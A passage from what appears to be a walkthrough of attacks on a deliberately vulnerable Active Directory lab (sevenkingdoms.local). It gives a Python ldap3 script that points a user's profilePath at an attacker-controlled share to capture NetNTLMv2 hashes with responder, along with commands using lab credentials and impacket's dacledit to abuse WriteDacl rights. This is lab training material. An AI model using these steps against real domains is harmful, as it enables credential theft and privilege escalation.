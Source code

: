 - Change the value of profilePath with the following script :
    
```
import ldap3<br>dn = "CN=joffrey.baratheon,OU=Crownlands,DC=sevenkingdoms,DC=local"
user = "sevenkingdoms.local\\jaime.lannister"
password = "pasdebraspasdechocolat"<br>server = ldap3.Server('kingslanding.sevenkingdoms.local')
ldap_con = ldap3.Connection(server = server, user = user, password = password, authentication = ldap3.NTLM)
ldap_con.bind()
ldap_con.modify(dn,{'profilePath' : [(ldap3.MODIFY_REPLACE, '\\\\192.168.56.1\share')]})
print(ldap_con.result)
ldap_con.unbind()
```


- Start responder and simulate joffrey connection by starting an RDP connection
```
responder -I vboxnet0<br>xfreerdp /d:sevenkingdoms.local /u:joffrey.baratheon /p:'1killerlion' /v:192.168.56.10 /size:80%  /cert-ignore
```

- And we get the NetNLMV2 hash of joffrey.baratheon and… kingslanding$ !

## WriteDacl on User (Joffrey -> Tyron)

- To exploit writeDacl from Joffrey to Tyron we can use acledit.py
    
- First we will clone the impacket’s [fork](https://github.com/ThePorgs/impacket.git) created by shutdown (@_nwodtuhs) to get the last PR with dacledit

> [!NOTE] 
> This is not needed as dacledit is now part of impacket

```
git clone https://github.com/ThePorgs/impacket.git
cd impacket
python3 setup.py install
```


- Now we can use [dacledit.py](https://www.thehacker.recipes/ad/movement/dacl/grant-rights)
    
- First let’s look at joffrey’s right on tyron :
    

```
impacket-dacledit -action 'read' -principal joffrey.baratheon -target 'tyron.lannister' 'sevenkingdoms.local'/'joffrey.baratheon':'1killerlion'
```
![screenshot](pics/write_dacl_read.png)
